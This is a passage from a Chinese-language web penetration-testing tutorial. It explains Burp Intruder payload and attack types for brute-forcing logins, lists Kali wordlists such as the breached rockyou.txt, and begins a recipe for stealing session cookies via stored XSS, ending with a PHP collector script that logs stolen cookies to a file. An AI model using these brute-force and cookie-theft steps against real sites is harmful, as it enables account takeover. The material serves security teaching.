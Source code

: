

##### 工作原理

Intruder 所做的是，修改请求的特定部分，并使用定义好的载荷替换这些部分的值。载荷可以是这些东西：

- 简单列表：来自文件，由剪贴板传递或者写在文本框中的列表。
- 运行时文件：Intruder 可以在运行时从文件中读取载荷，所以如果文件非常大，它不会完全加载进内存。
- 数字：生成一列顺序或随机的数字，以十进制或十六进制形式。
- 用户名生成器：接受邮件地址列表，从中提取可能的用户。
- 爆破器：接受字符集并使用它来生成指定长度的所有排列。

这些载荷由Intruder以不同形式发送，在`Positions`标签页中由攻击类型指定。攻击类型在载荷标记中的组合和排列方式上有所不同。

- Sniper：对于载荷的单一集合，它将每个载荷值放在每个标记位置，一次一个。
- Battering ram：类似Sniper，它使用载荷的单一集合，不同点是它在每个请求中将所有位置设置为相同的值。
- Pitchfork：使用多个载荷集合，并将每个集合中的一个项目放到每个标记位置中。当我们拥有不能混用的预定义数据时，这会非常有用，例如，测试已知的用户名和密码。
- Cluster bomb：测试多个载荷，所以每个可能的排列都可以测试到。

对于结果，我们可以看到所有失败尝试都有相同的响应，这里是 811 字节。所以我们假设成功响应的长度应该不同（因为它会重定向到用户主页）。如果碰巧成功和失败请求长度相同，我们也可以检查状态码或者使用搜索框来寻找响应中的特定模式。



##### 更多

kali 包含了非常实用的密码字典和单词列表集合，位于`/usr/ share/wordlists`。一些文件可以在这里找到：

- `rockyou.txt`：Rockyou.com在 2010 年被攻破，泄露了多于 14 亿的密码，这个列表包含它们。
- `dnsmap.txt`：包含常用的子域名称，例如内部网络、FTP或者WWW。在我们爆破 DNS 服务器时非常实用。
- `./dirbuster/*`：`dirbuster`目录包含Web 服务器中常见的文件名称，这些文件可以在使用`DirBuster`或 OWASP ZAP 强制浏览时使用。
- `./wfuzz/*`：在这个目录中，我们可以找到用于Web 攻击的模糊字符串的大量集合，以及爆破文件





### 6.  通过 XSS 获得会话 Cookie

这个秘籍中，我们会利用持久性 XSS 来获得用户的会话 Cookie，之后使用这个 cookie 来通过移植到另一个浏览器来劫持会话，之后冒充用户来执行操作。



##### 操作步骤

1. 先启动一个web服务，用于收集cookie，先启动Apache

```shell
service apache2 start
```

2. 先生成一个写入cookie的php脚本

```php
<?php 
$fp = fopen('/tmp/cookie_data.txt', 'a'); 
fwrite($fp, $_GET["cookie"] . "\n"); 
fclose($fp); 
?>
```

这个脚本会收集get请求后缀里面的`cookie`参数，然后写入到文件。

